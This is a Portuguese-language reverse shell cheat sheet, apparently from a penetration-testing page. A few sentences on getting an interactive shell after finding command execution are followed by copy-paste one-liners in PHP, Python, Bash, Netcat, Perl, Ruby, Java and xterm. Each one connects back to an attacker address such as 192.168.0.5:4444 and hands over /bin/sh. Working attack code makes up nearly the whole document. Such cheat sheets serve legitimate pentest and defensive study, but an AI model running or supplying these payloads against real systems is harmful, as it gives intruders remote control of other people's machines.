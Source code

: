 Reverse Shell Cheat Sheet
Agora, focando em reverse shell: durante um pentest, caso você tenha a sorte de encontrar uma vulnerabilidade de execução de comando, muito em breve – provavelmente, você precisará de um shell interativo.

Se não for possível adicionar uma nova conta / chave SSH / arquivo .rhosts e apenas efetuar login, sua próxima etapa possivelmente trará um shell reverso ou vinculará um shell a uma porta TCP.

Suas opções para criar um shell reverso são limitadas pelas linguagens de script instaladas no sistema destino, embora você provavelmente possa fazer o upload de um binário caso esteja adequadamente preparado.

Os exemplos mostrados são adaptados para sistemas Unix-like. Alguns dos exemplos a seguir devem funcionar no Windows se você substituir /bin/sh -i por cmd.exe.

Cada um dos métodos abaixo tem como objetivo ser um copiar/colar. São linhas curtas, mas pouco legíveis.

PHP:
 
php -r '$sock=fsockopen("192.168.0.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
 
Python:
 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 
Bash:
 
bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
 
Netcat:
 
nc -e /bin/sh 192.168.0.5 4444
 
Perl:
 
perl -e 'use Socket;$i="192.168.0.5";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 
Ruby:
 
ruby -rsocket -e'f=TCPSocket.open("192.168.0.5",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
 
Java:
 
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.0.5/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
 
xterm:
 
xterm -display 192.168.0.5:4444
 
